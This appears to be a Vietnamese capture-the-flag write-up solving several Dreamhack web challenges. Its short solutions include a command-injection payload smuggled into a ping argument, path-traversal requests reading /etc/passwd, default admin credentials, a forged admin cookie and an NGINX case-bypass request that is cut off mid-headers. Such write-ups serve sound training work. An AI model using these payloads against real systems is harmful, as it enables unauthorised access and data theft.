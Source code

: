 ```
### Carve Party
- Click bằng tay đi.
```js
for(i=0; i<=10000; i++){
 $('#jack-target').trigger("click")
}
```
### web-misconf-1
- config quên xóa default password
```
user: admin
pass: admin
```
### command-injection-1
- Server chạy subprocess nhưng không kiểm tra đầu vào của input:
```
ping -c 3 "{input}"
-> input = ";cat *;echo "
-> ping -c 3 ""; cat *; echo ""
```

### file-download-1
- không cần care phần upload đâu, đọc src sẽ thấy ```/read``` bị lỗi path traversal.
```
http://host3.dreamhack.games:24186/read?name=../../../../etc/passwd
tự thêm phần mà bạn muốn đọc vào để solve :v
```
### pathtraversal
- tương tự câu trên nhưng lần này là ở POST data.
```
 const users = {
    'guest': 0,
    'admin': 1
  }
userid=1/../../../api/flag
```
### cookie
```Cookie: sessionid=6c292920; username=admin```
## Level 1
### baby-Case
- muốn lấy được flag thì phải vào /shop, nhưng NGINX đã chặn path này.

  ![image](https://github.com/user-attachments/assets/ed349cc1-2ceb-474d-b815-57c48ea3716b)

- Chúng ta có thể lợi dụng việc sử lý URL của Express và NGINX để bypass ```/shop = /sHOP```
- Tiếp theo là bypass hàm ```search``` bằng cách thêm một kí tự lowcase vào data.

![image](https://github.com/user-attachments/assets/ee084983-0396-4a90-b253-9529a465ebe0)

```
POST /sHop HTTP/1.1
Host: host3.dreamhack.games:16045
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
